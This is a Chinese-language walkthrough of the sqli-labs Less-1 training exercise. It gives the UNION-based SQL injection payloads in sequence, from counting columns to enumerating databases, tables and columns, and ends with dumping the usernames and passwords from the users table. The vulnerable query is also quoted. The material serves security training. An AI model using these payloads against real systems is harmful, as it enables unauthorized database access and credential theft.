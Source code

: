 ### 2、sqli-labs-less-1---字符型注入，基于错误的GET单引号

##### 1、访问less-1的页面

###### 1.1、地址为： ip/sqli-labs/Less-1
![Alt text](./../../images/sql/less-1/less-1.png 'less-1')

##### 2、注入

###### 2.1、根据页面提示，输入ID作为带数值的参数---判断是否有注入点

![Alt text](./../../images/sql/less-1/less-1-id.png 'id参数')

id后面接入英文单引号空格报错，判断可能有注入点

![Alt text](./../../images/sql/less-1/less-1-error.png '空格报错')

输入 ’ and ‘1’='1不报错，确定存在注入点

![Alt text](./../../images/sql/less-1/less-1-1=1.png "’ and ‘1’='1不报错")

###### 2.2、开始注入，获取库名，表名，列名信息，并查找表数据
2.2.1 判断当前可注入表的列数
```
?id=1' order by 3 --+

order by 数字: 根据列名排序，order by后面直接跟数字表示为，根据前几列进行排序，所以可以使用这种方法进行列数的确定

从 1.2..3 是正常返回数据，当order by为4时，报错，说明当前sql语句查询的这个表列数为3

```
![Alt text](./../../images/sql/less-1/orderby3.png "orderby3")

![Alt text](./../../images/sql/less-1/orderby4.png "orderby4")

2.2.2 获取当前数据库名
```
?id=-1' union select 1,2,database() --+

nuion:
1、为联合查询，union前的数据要为“假”
2、用于连接两个以上的select语句到一个结果集中，输入表中超出的列数会报错---上面已经试过列数为3

database() : 数据库函数，返回默认或当前数据库的名称

--+ :注释后面的单引号和拼接

```
![Alt text](./../../images/sql/less-1/less-1-database.png "database")

2.2.3 获取所有数据库

```

?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+

group_concat:将查询出的数据进行拼接

information_schema: mysql中的数据信息表，里面包含有所有的库，表，列名的记录

schemata: 上述库中的其中表的名称

```

![Alt text](./../../images/sql/less-1/allDataBases.png "alldatabase")

2.2.4 获取某个库中的所有表

```

?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+

```

![Alt text](./../../images/sql/less-1/allTables.png "allTables")

2.2.5 获取用户表(users)中的列名

```

?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security'and table_name ='users' --+

and:表示条件并列

```
![Alt text](./../../images/sql/less-1/tablecolumns.png "tablecolumns")


2.2.6 获取用户表(users)中的信息

```

?id=-1' union select 1,2,group_concat(id,"-",username,"-",password) from users --+

```

![Alt text](./../../images/sql/less-1/usersInfo.png "usersInfo")


总结：less-1的课程还是比较容易的，输入的变量id，将其进行单引号的字符包裹，参考如下sqli-labs的源码，所以注入时，对应的对单引号进行闭合

```
// connectivity less-1
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

```